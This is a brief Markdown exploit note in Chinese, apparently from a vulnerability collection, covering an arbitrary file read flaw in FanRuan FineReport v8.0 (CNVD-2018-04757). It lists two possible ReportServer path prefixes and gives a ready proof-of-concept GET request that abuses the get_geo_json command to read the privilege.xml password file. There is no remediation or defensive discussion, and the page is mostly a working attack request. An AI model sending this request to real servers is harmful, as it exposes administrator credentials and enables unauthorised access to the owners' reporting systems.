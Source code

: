 ![](帆软报表-v8.0-任意文件读取漏洞-CNVD-2018-04757.assets/16273635019052439.jpg)

> [!NOTE]
>
> 路径分为两种
>
> /WebReport/ReportServer
>
> ReportServer

访问POC为,读取密码文件 privilege.xml

```
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```
